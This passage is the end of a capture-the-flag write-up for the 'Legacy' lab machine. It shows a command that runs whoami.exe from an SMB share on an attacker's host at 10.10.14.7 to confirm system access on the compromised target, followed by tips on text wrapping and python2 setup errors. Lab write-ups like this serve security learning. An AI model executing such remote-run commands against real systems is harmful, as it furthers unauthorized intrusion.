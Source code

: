 Now lastly, let us run the following command on our target machine (Legacy):

```powershell
\\10.10.14.7\tmp\whoami.exe
```

And we finally get to see that we have root:

![Legacy%2050ca93bd68dc4442bc3b6815174752a1/Untitled%2019.png](Legacy%2050ca93bd68dc4442bc3b6815174752a1/Untitled%2019.png)

# Learning Points (Additional Points)

## Line wrap

To help to wrap text on screen, we can run the following command:

```python
fold -sw 100 FILE_PATH
```

## Python pip egg_info Error

![Legacy%2050ca93bd68dc4442bc3b6815174752a1/Untitled%2020.png](Legacy%2050ca93bd68dc4442bc3b6815174752a1/Untitled%2020.png)

When facing this error, fix with:

```python
pip2 install -U setuptools
```

- -U: -upgrade Upgrade all packages to the newest available version

![Legacy%2050ca93bd68dc4442bc3b6815174752a1/Untitled%2021.png](Legacy%2050ca93bd68dc4442bc3b6815174752a1/Untitled%2021.png)

## Concatenation of Strings and Bytes

Running the scripts via python3 and python2 can lead to differences, so in these errors, we have to run it via python2

## Bypassing whoami

Refer to the last section above